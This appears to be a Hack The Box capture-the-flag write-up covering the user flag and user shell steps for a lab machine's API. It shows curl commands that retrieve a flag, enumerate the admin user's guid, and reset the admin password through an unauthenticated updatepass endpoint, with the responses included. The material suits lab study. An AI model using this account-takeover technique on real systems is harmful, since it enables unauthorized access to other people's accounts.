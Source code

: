# User Flag
Reading the documentation there is an API endpoint to get the user flag. It requires the `PUT`  method 
```
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.11.161/api/v1/user/SecretFlagEndpoint -X PUT
{"user.txt":"be79b4a8c3f49e41a6026bd81439bb38"}    
```

 # User Shell
 Reading more of the documentation there is an api function to get information about a user. We can try and put in a `user_id` of 1. Its returns some information about the admin user including the `guid`
 
```
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.11.161/api/v1/user/1                        
{"guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","date":null,"time_created":1649533388111,"is_superuser":true,"id":1}  
```
 
 There is a `updatepass` function that we can try and use to update the admin's password now that we have the users `guid`. The response is a little bit messy but we get the super users hash and have updated the password
 
 ```
 ┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST -d '{ "guid": "36c2e94a-4271-4259-93bf-c96ad5948284", "password": "password"}' -H 'Content-Type: application/json'  http://10.10.11.161/api/v1/user/updatepass
{"date":null,"id":1,"is_superuser":true,"hashed_password":"$2b$12$u6wAJHW5s0wWvC2Cwv1GhOsWDP33Gd4DGcYm4OjcC71HgeTADmlLm","guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","time_created":1649533388111,"last_update":null}    
 ```
 
 After trying the new password we get in as the superuser!
 